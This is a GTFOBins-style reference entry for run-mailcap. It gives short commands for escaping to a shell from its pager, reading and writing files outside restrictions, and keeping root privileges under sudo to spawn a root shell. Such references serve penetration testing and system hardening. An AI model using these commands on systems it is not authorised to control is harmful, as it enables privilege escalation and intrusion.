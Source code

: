 # GTFOBin: run-mailcap

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
run-mailcap --action=view /etc/hosts
!/bin/sh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The file must exist and be not empty.

This invokes the default editor, which is likely to be `vi`, other functions may apply.

```
run-mailcap --action=edit file_to_read
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
run-mailcap --action=view file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo run-mailcap --action=view /etc/hosts
!/bin/sh
```